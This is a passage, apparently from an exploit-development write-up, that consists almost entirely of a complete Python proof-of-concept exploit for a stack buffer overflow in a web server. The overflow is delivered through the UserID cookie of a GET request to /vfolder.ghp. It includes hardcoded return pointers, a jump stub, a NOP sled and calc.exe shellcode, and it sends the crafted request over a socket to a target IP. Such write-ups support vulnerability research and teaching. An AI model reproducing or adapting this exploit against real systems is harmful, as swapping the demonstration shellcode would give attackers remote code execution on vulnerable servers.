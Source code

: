 Here's the PoC after all the changes: 

```python
import socket
import struct
import time

target = "192.168.1.140"
port = 80

# 101 byte calc.exe shellcode
shellcode = ( 
"\xd9\xcb\xbe\xb9\x23\x67\x31\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x13\x31\x72\x19\x83\xc2\x04\x03\x72\x15\x5b\xd6\x56" +
"\xe3\xc9\x71\xfa\x62\x81\xe2\x75\x82\x0b\xb3\xe1\xc0\xd9" +
"\x0b\x61\xa0\x11\xe7\x03\x41\x84\x7c\xdb\xd2\xa8\x9a\x97" +
"\xba\x68\x10\xfb\x5b\xe8\xad\x70\x7b\x28\xb3\x86\x08\x64" +
"\xac\x52\x0e\x8d\xdd\x2d\x3c\x3c\xa0\xfc\xbc\x82\x23\xa8" +
"\xd7\x94\x6e\x23\xd9\xe3\x05\xd4\x05\xf2\x1b\xe9\x09\x5a" +
"\x1c\x39\xbd"
)

payload =  "A"*64                            # padding
payload += "\x81\xee\x70\xff\xff\xff"        # SUB ESI,-90
payload += "\xff\xe6"                        # JMP ESI
payload += "A"*8                             # padding
payload += struct.pack("<I", 0x019F6940)     # overwrite EDX with pointer to CALL ESI
payload += "C"*108                           # padding
payload += struct.pack("<I", 0x10023701)     # pointer to CALL ESI
payload += "\x90"*20                         # NOP sled
payload += shellcode                         # calc.exe
payload += "C"*75                            # padding

buf = (
"GET /vfolder.ghp HTTP/1.1\r\n"
"User-Agent: Mozilla/4.0\r\n"
"Host:" + target + ":" + str(port) + "\r\n"
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
"Accept-Language: en-us\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"Referer: http://" + target + "/\r\n"
"Cookie: SESSIONID=6771; UserID=" + payload + "; PassWD=;\r\n"
"Conection: Keep-Alive\r\n\r\n"
)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send(buf)
s.close()
```

### Final thoughts

